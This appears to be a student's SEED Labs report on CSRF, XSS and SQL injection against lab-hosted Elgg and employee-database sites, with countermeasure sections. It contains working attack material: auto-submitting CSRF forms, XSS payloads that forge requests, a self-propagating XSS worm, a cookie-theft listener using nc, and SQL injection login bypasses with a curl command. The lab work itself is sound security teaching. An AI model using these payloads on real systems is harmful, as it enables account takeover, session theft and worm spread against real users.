





# 2 Cross-Site Request Forgery (CSRF) Attack

## 2.2 Observing HTTP Request

The raw header of a HTTP GET request is as follows:

```http
GET http://www.csrflabelgg.com/search?q=admin&search_type=all HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/members
Cookie: Elgg=02ivrcfhopjtrfnj475kq67516
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```


Observation: in GET request, the parameters are passed in the URL as key-value pairs. The `?q=admin&search_type=all` part of the URL translates to two parameters: `q` and `search_type`.

The raw header of a HTTP POST request is as follows:

```http
POST http://www.csrflabelgg.com/action/login HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/search?q=admin&search_type=all
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Cookie: Elgg=02ivrcfhopjtrfnj475kq67516
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```


Observation: in POST request, the parameters are not visible in the URL. Instead they are passed in the body of the request, which contains the form data including the username and password. Additionally, The `Content-Type` header indicates that the data is URL-encoded.


## 2.3 CSRF Attack using GET Request

### Identifying the URL for Adding a Friend

Body first adds another user, Charlie, as a friend. The URL is as follows:

```http
http://www.csrflabelgg.com/action/friends/add?friend=44&__elgg_ts=1743917848&__elgg_token=G1b6-5VQyOU33sbVZKHzfQ&__elgg_ts=1743917848&__elgg_token=G1b6-5VQyOU33sbVZKHzfQ
```

where `44` is the ID of Charlie. Therefore, the request for Alice to add Boby as a friend is as follows:

```http
http://www.csrflabelgg.com/action/friends/add?friend={Boby's ID}
```

We can obtain Boby's ID by inspecting the page source of Boby's profile page. The ID is 43:


### Setting Up the Attack Page

In `/var/www/CSRF/Attacker/`, create a file named `index.html` with the following content:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dear Alice</title>
    <body>
        <h1>Dear Alice</h1>
        <p>You are now friends with Boby!</p>
        
        <a href="http://www.csrflabelgg.com">Click here to go back to Elgg</a>
    </body>
</html>
```

### Launching the Attack

Login as Boby and send the following direct message to Alice:

```html
Dear Alice,

Elgg will be down for maintenance for a few minutes. Don't worry, everything will be back to normal soon. In the meantime, you can get a sneak peek of the new features by clicking the link below:

http://www.csrflabattacker.com

Best regards,
Boby
```

Now log in as Alice and click the link. This will trigger a GET request to add Boby as a friend without any interaction from Alice.


Going back to the Elgg page, we can see that Alice has successfully added Boby as a friend:


## 2.4 CSRF Attack using POST Request

### Identifying the POST Request for Modifying Profile

As Bob, we first modify our profile and observe the HTTP POST request. The POST request is as follows:

```http
POST http://www.csrflabelgg.com/action/profile/edit HTTP/1.1
...
```

And the body of the request is as follows:


Therefore, the request body for Alice to modify her profile should contain the following parameters:

```http
name=Alice
briefdescription=Boby+is+my+Hero
accesslevel[briefdescription]=2
guid=42
```

where `42` is the ID of Alice, which can also be obtained by inspecting source of Alice's profile page. The `accesslevel[briefdescription]` indicates the access level of the `briefdescription` field is set to public.

### Setting Up the POST Attack Page

In `/var/www/CSRF/Attacker/`, create `index.html`:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dear Alice</title>
    <body>
        <h1>Dear Alice</h1>
        <p>You have a profile update!</p>
        <form id="csrf-form" action="http://www.csrflabelgg.com/action/profile/edit" method="POST">
            <input type="hidden" name="name" value="Alice" />
            <input type="hidden" name="briefdescription" value="Boby is my Hero" />
            <input type="hidden" name="accesslevel[briefdescription]" value="2" />
            <input type="hidden" name="guid" value="42" />
        </form>
        <script type="text/javascript">
            document.getElementById("csrf-form").submit(); // executed upon page load
        </script>
    </body>
</html>
```

### Launching the POST Attack

Again we cheat Alice into clicking the link `http://www.csrflabattacker.com`.


Note the attacker website only displays for a short while, and then redirects to the Elgg page. This is because `POST /action/profile/edit` returns a HTTP 302 response, which redirects to the profile page. This implies if the attacker website contains nothing but the hidden form, the user will likely to not notice anything wrong before the redirection happens.

Upon going back to Alice's profile page, we can see the short description has been changed to "Boby is my Hero".

### Additional Questions

Question 1:

By inspecting the source code of Alice's profile page, and search for `guid`, Boby can find Alice's guid is 42.


Question 2:

Launching the attack without knowing the victim's guid is not possible. I reached this conclusion by the following failed attempts:

As found in Question 1, the guid of the user is stored in the source code of the profile page. This variable is also stored in any other Elgg page, including the home page.

```javascript
var elgg = {"config":{"lastcache":1549469429,"viewtype":"default","simplecache_enabled":1},"security":{"token":{"__elgg_ts":1743922309,"__elgg_token":"EC6ZJ0jZSTQZrbWXeYWzIg"}},"session":{"user":{"guid":42,"type":"user","subtype":"","owner_guid":42,"container_guid":0,"site_guid":1,"time_created":"2017-07-26T20:31:54+00:00","time_updated":"2025-04-06T06:46:24+00:00","url":"http:\/\/www.csrflabelgg.com\/profile\/alice","name":"Alice","username":"alice","language":"en","admin":false},"token":"zrqpOhck1cxbkg9K3-iww2"},"_data":{},"page_owner":{"guid":42,"type":"user","subtype":"","owner_guid":42,"container_guid":0,"site_guid":1,"time_created":"2017-07-26T20:31:54+00:00","time_updated":"2025-04-06T06:46:24+00:00","url":"http:\/\/www.csrflabelgg.com\/profile\/alice","name":"Alice","username":"alice","language":"en"}};
```

To launch the attack, the attacker can create a GET request to the home page, parse the HTML response, and extract the guid from the JavaScript variable `elgg.session.user.guid`.

In `/var/www/CSRF/Attacker/`, create `get_guid.php`:

```php
<?php
$url = 'http://www.csrflabelgg.com/';
$page = file_get_contents($url);
if ($page === false) {
    die('Error fetching the page');
}

if (preg_match('/var\s+elgg\s*=\s*(\{.*?\});/s', $page, $matches)) {
    $elgg = json_decode($matches[1], true);
    if (isset($elgg['session']['user']['guid'])) {
        $guid = $elgg['session']['user']['guid'];
        $displayName = $elgg['session']['user']['name'];
    }
}
echo "JSON: " . json_encode($elgg) . "\n";
echo "User ID: $guid\n";
echo "Display Name: $displayName\n";
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title></title>
    <body>
        <form id="csrf-form" action="http://www.csrflabelgg.com/action/profile/edit" method="POST">
            <input type="hidden" name="name" value="<?php echo $displayName; ?>" />
            <input type="hidden" name="briefdescription" value="Boby is my Hero" />
            <input type="hidden" name="accesslevel[briefdescription]" value="2" />
            <input type="hidden" name="guid" value="<?php echo $guid; ?>" />
        </form>
        <script type="text/javascript">
            document.getElementById("csrf-form").submit();
        </script>
    </body>
</html>
```

Another user, Charlie, somehow clicked into the link `http://www.csrflabattacker.com/get_guid.php`.

However, in the actually received response, `session.user` is null despite the user has been logged in:

```json
{"config":{"lastcache":1549469429,"viewtype":"default","simplecache_enabled":1},"security":{"token":{"__elgg_ts":1743925278,"__elgg_token":"o7gWoypi6fETc8lSJoHEFg"}},"session":{"user":null,"token":"7q2mFYJMYuxzTImxxIoHYT"},"_data":[]}
```

This is because `file_get_contents` does not send the cookie `Elgg` to the server, and therefore the server cannot identify the user. To fix this, we attempted to use `cURL` to send the request with the cookie.

```php
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HEADER, false);
curl_setopt($ch, CURLOPT_REFERRER, 'http://www.csrflabelgg.com/');
if (isset($_COOKIE['Elgg'])) {
    curl_setopt($ch, CURLOPT_COOKIE, 'Elgg=' . $_COOKIE['Elgg']);
}
$page = curl_exec($ch);
curl_close($ch);
```

However and pretty obviously, the attacker cannot obtain the cookie `Elgg` from another source `http://www.csrflabelgg.com/` and use in `http://www.csrflabattacker.com/`, which is prohibited by browser. Therefore we cannot use this method to obtain the guid.

In conclusion, the attacker cannot launch the CSRF attack without knowing the victim's guid beforehand, because (1) the server requires the cookie to identify the user, and (2) the attacker cannot obtain the cookie from another domain.

## 2.5 Implementing a Countermeasure for Elgg

After turning on the countermeasure, we repeated the POST attack.

Observation: The attack failed. The attacker website keeps refreshing because it repeatedly tries to send the POST request, which returns a HTTP 302 Found response. After returning to the Elgg page, we can see many error messages indicating the CSRF attack was blocked:



`Form is missing __token or __ts fields`

Using the inspection tool, we can see `__elgg_ts` and `__elgg_token` are added to the request body upon sending the POST request to `/action/profile/edit`:


Explanation: The attacker cannot launch the CSRF attack because the server requires the `__elgg_ts` and `__elgg_token` fields to be present in the request body. Still, the attacker will not be able to obtain these fields from the victim's session, because the attacker is not allowed to read the cookie `Elgg` from another domain. This is due to 2 reasons:

(1) The unpredictable nature of the `__elgg_token` field. According to source code, method `generate_action_token()` in `/views/default/input/securitytoken.php`, the `__elgg_token` field is generated using the server-side secret key, timestamp, session ID, and session token. Since the attacker will never know the server-side secret key, the attacker cannot generate a valid `__elgg_token` field.

(2) The same-origin policy. The attacker cannot read `elgg.security.token.__elgg_ts` and `elgg.security.token.__elgg_token` from the victim's session, because the same-origin policy prohibits the attacker from accessing the victim's session data from another domain. Even if the attacker somehow builds the attack page on the same page (e.g., using an iframe), the attacker still cannot access the session data because the same-origin policy only regard two pages as the same origin if they have the same protocol, domain, and port. In this case, the attacker page is `http://www.csrflabattacker.com`, while the Elgg page is `http://www.csrflabelgg.com`. They are not considered as the same origin, and using an iframe will not hide the fact that the attacker page is on a different domain.

# 3 Cross-Site Scripting (XSS) Attack

## 3.3 Posting a Malicious Message to Display an Alert Window

Inserting the following code into the brief description field of Samy's profile:

```html
<script>alert('XSS');</script>
```

Observation as admin:


Observation: Upon viewing Samy's profile, an alert window pops up displaying "XSS". This indicates that the JavaScript code was successfully executed in the context of the admin's session.


After clicking "OK", the brief description is displayed empty. This is because the JavaScript code was executed and removed from the DOM. However, if we inspect the source code of the page, we can still see the JavaScript code in the HTML.

## 3.4 Posting a Malicious Message to Show the Cookie

Inserting the following code into the brief description field of Samy's profile:

```html
<script>alert(document.cookie);</script>
```

Observation as admin:


Observation: Upon viewing Samy's profile, an alert window pops up displaying the cookie `Elgg=...`. This is the cookie of the admin's session, which can be confirmed by checking the cookie in console:

```javascript
document.cookie
"Elgg=9pc6n0glserddopj550jc6n5j0"
```

## 3.5 Stealing Cookies from the Victim's Machine

Launch the TCP server: (the attacker is on the same VM as the victim)

```bash
$ nc -l 5555 -v
```

Inserting the following code into the brief description field of Samy's profile:

```html
<script>document.write('');</script>
```

The TCP server receives a GET request with the cookie appended to the URL:


The encoded query string is `/?c=Elgg%3D9pc6n0glserddopj550jc6n5j0`, so we can obtain the cookie `Elgg=9pc6n0glserddopj550jc6n5j0`, which is the cookie of the admin's session, same as the one from the previous task.

## 3.6 Becoming the Victim's Friend

In the "About Me" field of Samy's profile, insert the following code:

```html
<script type="text/javascript">
window.onload = function () {
    var Ajax=new XMLHttpRequest();
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var friend="&friend="+elgg.page_owner.guid;
    var sendurl="http://www.xsslabelgg.com/action/friends/add?"+friend+ts+token;
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```

Observation as admin:


Samy silently added admin as a friend without any interaction from admin. Note the "Remove Friend" button in Figure 1 and the timeline in Figure 2 both verify that admin is now a friend of Samy.

Looking into the console tab > enable 'XHR', we can see the request sent to the server:


Additional Questions:

Q1: The purpose of Line 4 and 5 is to obtain the `__elgg_ts` and `__elgg_token` fields from the victim's session. As discussed in Task 2.5, these two fields are required by the server to identify the user and prevent CSRF attacks. The attacker cannot predict the values of these two fields, but since this is a same-origin attack, the attacker can obtain these values directly from DOM. If they are not included in the request, the server will reject the request.

Q2: If only editor mode is provided, the attack can still be launched successfully, though we have to bypass the editor mode via HTTP request modification.

First we will check what does the editor mode do. Paste the above code into editor mode, and check the source code of the page.


So the Editor Mode adds a `<p>` tag to encapsulate the content, and also escapes all `<` and `>` characters. This means the JavaScript code will not be executed, because it is treated as a string.

As we save the profile, we can see the script is displayed as-is and nothing happens.

Normally, this would imply it is not possible to save the script in the profile, as `<p>` tags make the content to be rendered as plain text. Fortunately, another loophole is that the text formatting is only performed on the client side, meaning that once the data is received by the server, it is not checked again. This creates a vulnerability that allows us to bypass the frontend limitation: forge the HTTP request and send the script directly to the server.


In the previous task we have already found the POST request for modifying profile, which is `POST /action/profile/edit`. We can use the browser's "Edit and Resend" feature to modify the request body and send it again, as shown below:


Original request body:

```
__elgg_token=NYk3y9Q4OG72wXNF14tn3w&__elgg_ts=1743935314&name=Samy&description=%3Cp%3E%26lt%3Bscript+type%3D%26quot%3Btext%2Fjavascript%26quot%3B%26gt%3B%3Cbr+%2F%3E%0D%0Awindow.onload+%3D+function+%28%29+%7B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+Ajax%3Dnull%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+ts%3D%26quot%3B%26amp%3B__elgg_ts%3D%26quot%3B%2Belgg.security.token.__elgg_ts%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+token%3D%26quot%3B%26amp%3B__elgg_token%3D%26quot%3B%2Belgg.security.token.__elgg_token%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+friend%3D%26quot%3B%26amp%3Bfriend%3D%26quot%3B%2Belgg.page_owner.guid%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+sendurl%3D%26quot%3Bhttp%3A%2F%2Fwww.xsslabelgg.com%2Faction%2Ffriends%2Fadd%3F%26quot%3B%2Bfriend%2Bts%2Btoken%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax%3Dnew+XMLHttpRequest%28%29%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax.open%28%26quot%3BGET%26quot%3B%2Csendurl%2Ctrue%29%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax.setRequestHeader%28%26quot%3BHost%26quot%3B%2C%26quot%3Bwww.xsslabelgg.com%26quot%3B%29%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax.setRequestHeader%28%26quot%3BContent-Type%26quot%3B%2C%26quot%3Bapplication%2Fx-www-form-urlencoded%26quot%3B%29%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax.send%28%29%3B%3Cbr+%2F%3E%0D%0A%7D%3Cbr+%2F%3E%0D%0A%26lt%3B%2Fscript%26gt%3B%3C%2Fp%3E%0D%0A&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=47
```

Alter it so that the script is not escaped:

```
__elgg_token=NYk3y9Q4OG72wXNF14tn3w&__elgg_ts=1743935314&name=Samy&description=%3Cscript+type%3D%22text%2Fjavascript%22%3E%0D%0Awindow.onload+%3D+function+%28%29+%7B%0D%0A++++var+Ajax%3Dnull%3B%0D%0A++++var+ts%3D%22%26__elgg_ts%3D%22%2Belgg.security.token.__elgg_ts%3B%0D%0A++++var+token%3D%22%26__elgg_token%3D%22%2Belgg.security.token.__elgg_token%3B%0D%0A++++var+friend%3D%22%26friend%3D%22%2Belgg.page_owner.guid%3B%0D%0A++++var+sendurl%3D%22http%3A%2F%2Fwww.xsslabelgg.com%2Faction%2Ffriends%2Fadd%3F%22%2Bfriend%2Bts%2Btoken%3B%0D%0A++++Ajax%3Dnew+XMLHttpRequest%28%29%3B%0D%0A++++Ajax.open%28%22GET%22%2Csendurl%2Ctrue%29%3B%0D%0A++++Ajax.setRequestHeader%28%22Host%22%2C%22www.xsslabelgg.com%22%29%3B%0D%0A++++Ajax.setRequestHeader%28%22Content-Type%22%2C%22application%2Fx-www-form-urlencoded%22%29%3B%0D%0A++++Ajax.send%28%29%3B%0D%0A%7D%0D%0A%3C%2Fscript%3E&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=47
```

We also need to update the `Content-Length` header to match the new length of the request body, which is 1257.


Experiment result: the attack is successful. The admin is now a friend of Samy. And when editing Samy's profile in the text mode, the script is still there.

## 3.7 Modifying the Victim's Profile

Inserting the following code into the "About Me" field of Samy's profile:

```html
<script type="text/javascript">
window.onload = function(){
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var content="name="+userName+guid+ts+token+"&description=Samy+is+my+Hero!</script>&accesslevel[description]=2";
    var samyGuid=47;
    if(elgg.session.user.guid!=samyGuid)
    {
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        var sendurl="http://www.xsslabelgg.com/action/profile/edit";
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```

Observation as admin:


Admin's description is changed to "Samy is my Hero!".

Additional Questions:

Q3: The purpose of Line 12 is to prevent the script from modifying Samy's own profile. If we remove this line, the script will modify Samy's profile as well, which replaces the description with "Samy is my Hero!" upon viewing Samy's profile. If so, after Samy's profile is viewed, the description will be changed to harmless text, and the script will not be executed again.

Launching the attack without this line:

Step 1: Log in as Samy and view own profile. The first time the description is empty, and the script is executed. The second time the description is changed to "Samy is my Hero!".


Step 2: Log in as admin and view Samy's profile. Then go back to own profile. The description didn't change, because the script was no longer there.


## 3.8 Writing a Self-Propagating XSS Worm

```html
<script id="worm" type="text/javascript">
window.onload = function(){
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var content="name="+userName+guid+ts+token+"&description=<p>Samy+is+my+Hero!</p>"+wormCode+"&accesslevel%5Bdescription%5D=2";
    var samyGuid=47;
    if(elgg.session.user.guid!=samyGuid)
    {
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        var sendurl="http://www.xsslabelgg.com/action/profile/edit";
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
    var getUrl = "http://www.xsslabelgg.com/action/friends/add?friend=47"+ts+token;
    var Ajax2=new XMLHttpRequest();
    Ajax2.open("GET",getUrl,true);
    Ajax2.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax2.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax2.send();
}
</script>
```

Step 1: Log in as Admin and view Samy's profile.


Admin's description is changed to "Samy is my Hero!". Editing Admin's profile in the text mode, we can see the script is embedded. So Admin has become a new attacker.


Step 2: Log in as Alice and view Admin's profile.


After viewing Admin's profile, Alice's profile is also modified to "Samy is my Hero!", and added Samy as a friend. Obviously, Alice's profile is also infected with the worm.

Therefore, the worm is self-propagating, infecting all users who view the profile of any infected user.

## 3.9 Countermeasures

### 3.9.1 Activating HTMLawed

Observation: `<script>` tags are removed from the Samy's profile, exposing the worm code as plain text. However, the special characters are left unchanged.


Log in as admin and view Samy's profile, nothing happens; admin's profile is not infected, and Samy is not added as a friend. Therefore, the script is not executed, blocking the XSS attack.

### 3.9.2 Activating HTMLawed and htmlspecialchars

Observation: check another victim, Alice's profile. The script is not functional, additionally, the special characters are also encoded:

| Original | Encoded |
|----------|---------|
| `<`      | `&lt;`  |
| `>`      | `&gt;`  |
| `"`      | `&quot;`|
| `&`      | `&amp;` |



In HTML, encoded characters can only be interpreted as plain text, not as HTML tags. Therefore, the script cannot be executed, without any side effects on the page display.

# 4 SQL Injection Attack

## 4.2 Get Familiar with SQL Statements

```sql
mysql -u root -pseedubuntu
use Users;
show tables;
show columns from credential;
select * from credential where Name='Alice';
```


Query result:



What we know about Alice:
- ID: 1
- EID: 10000
- Salary: 20000
- birth: 9/20
- SSN: 10211002

## 4.3 SQL Injection Attack on SELECT Statement

### 4.3.1 SQL Injection Attack from Webpage

The SQL statement is as follows:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential 
WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

The payload will be:

- $input_uname = `' or Name='Admin'; #`
- $input_pwd = `123`

The SQL statement after injection will be:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential 
WHERE name= '' or Name='Admin'; #' and Password='$hashed_pwd';
```

The part after `#` is a comment, so it will be ignored. the condition `name= '' or Name='Admin'` will select the admin's record, and the password check will be bypassed.

Observation: we successfully logged in as admin without knowing the password, and we can see all employees' information.


### 4.3.2 SQL Injection Attack from Command Line

The same payload can be used in the command line as well. However, we need to URL-encode special characters:

- username = `%27%20or%20Name%3D%27Admin%27%3B%20%23`
- password = `123`

```sh
curl 'http://www.SeedLabSQLInjection.com/unsafe_home.php?username=%27%20or%20Name%3D%27Admin%27%3B%20%23&Password=123'
```




